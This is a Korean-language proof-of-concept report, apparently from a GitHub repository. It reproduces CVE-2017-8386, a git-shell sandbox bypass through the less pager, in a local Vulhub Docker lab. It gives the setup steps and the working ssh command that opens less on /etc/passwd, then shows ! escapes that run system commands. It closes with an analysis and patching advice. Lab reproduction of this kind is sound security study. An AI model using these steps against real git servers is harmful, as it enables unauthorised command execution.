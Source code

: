 # CVE-2017-8386: git-shell Sandbox Bypass to RCE PoC

## 1. 개요
Git-shell은 SSH를 통해 제한된 git 명령만 허용하는 환경을 제공합니다.  
하지만 특정 버전의 git-shell(2.12.2 등)에서는 `less` 명령어를 악용해  
sandbox를 우회하고 시스템 명령어를 실행할 수 있는 취약점(CVE-2017-8386)이 존재합니다.

본 보고서는 해당 취약점에 대한 PoC를 진행하고 과정을 정리한 것입니다.

---

## 2. 환경 구축

### 2.1 사용 도구 및 버전
- Docker: 24.0.7
- Docker-Compose: v2.34.0
- Host OS: macOS
- Target OS: Ubuntu 16.04 (컨테이너 내부)
- Git Version: 2.12.2
- SSH Server

### 2.2 Vulhub 레포지토리 클론

```bash
git clone https://github.com/phith0n/vulhub.git
cd vulhub/git/CVE-2017-8386/

### 2.3 docker-compose.yml 및 Dockerfile 구성
	•	Ubuntu 16.04 베이스 이미지
	•	Git 2.12.2 소스 설치
	•	OpenSSH 서버 설치 및 실행
	•	git-shell 환경 설정 (git 사용자 생성)

### 2.4 컨테이너 빌드 및 실행
docker-compose build
docker-compose up -d
docker ps
	•	컨테이너 실행 확인 (git-shell-cve-2017-8386)

### 2.5 SSH 키 등록 및 환경 설정
	1.	로컬에서 id_rsa.pub 생성 및 복사
	2.	컨테이너 내부 접속 및 git 사용자로 전환
	3.	authorized_keys 등록

docker exec -it git-shell-cve-2017-8386 /bin/bash
chsh -s /bin/bash git
su git
mkdir -p ~/.ssh
chmod 700 ~/.ssh
touch ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
vim ~/.ssh/authorized_keys

### 2.6 추가 패키지 설치
apt update
apt install less -y
apt install man-db -y
	•	PoC 수행을 위해 less, man 패키지 설치 완료

## 3. PoC 과정

### 3.1 정상적인 SSH 접속
ssh -p 3322 -i id_rsa -t git@127.0.0.1 "less /etc/passwd"
•	less 화면 진입 성공
•	! 명령어를 통해 시스템 명령어 실행 가능

### 3.2 명령어 실행 (sandbox 우회)
!id -> 사용자 ID, 그룹 ID 출력
!whoami -> 현재 사용자(git)
!uname -a -> 시스템 커널 정보 출력
!ls /home/git -> git 홈 디렉토리 파일 목록 출력

## 4. 취약점 분석
	•	git-shell 환경에서는 사용자가 시스템 명령어를 실행할 수 없게 제한함.
	•	그러나 git-upload-archive --help 명령어를 통해 내부적으로 less 호출이 가능.
	•	less 명령어는 ! 기능을 통해 시스템 쉘 명령 실행을 지원.
	•	결과적으로 git-shell sandbox를 우회하여 임의 명령어 실행이 가능함.

## 5. 대응 방안
	•	취약한 버전의 git-shell(2.12.2 등)을 사용하지 말고 최신 버전으로 업데이트
	•	git-shell 명령어 허용 목록을 엄격히 관리
	•	필요시 less와 같은 명령어를 서버에서 제거 또는 제한 설정

## 6. GitHub 레포지토리 링크
https://github.com/suz1n/vulhub
